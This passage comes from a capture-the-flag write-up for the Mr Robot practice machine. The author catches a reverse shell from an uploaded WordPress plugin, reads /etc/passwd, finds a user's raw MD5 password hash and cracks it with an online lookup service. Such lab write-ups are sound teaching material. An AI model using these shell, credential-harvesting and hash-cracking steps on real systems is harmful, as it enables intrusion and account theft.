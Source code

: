 Once plugin uploaded I activated it and I got a shell on my listenner:
```
# nc -lvp 4444
listening on [any] 4444 ...
connect to [192.168.0.36] from mrrobot.local [192.168.0.67] 43098
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 13:33:33 up  2:18,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
Logged in as deamon, time to explore, I always start by listing users on the machine:
```
$ less /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:103:106:ftp daemon,,,:/srv/ftp:/bin/false
bitnamiftp:x:1000:1000::/opt/bitnami/apps:/bin/bitnami_ftp_false
mysql:x:1001:1001::/home/mysql:
varnish:x:999:999::/home/varnish:
robot:x:1002:1002::/home/robot:
$ 
```
The user robot looked intersting:
```
$ cd /home/robot
$ ls
key-2-of-3.txt
password.raw-md5
$ less key-2-of-3.txt
key-2-of-3.txt: Permission denied
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
$ 
```
I used [www.md5online.org](https://www.md5online.org/md5-decrypt.html) to decrypt robot's password hash.
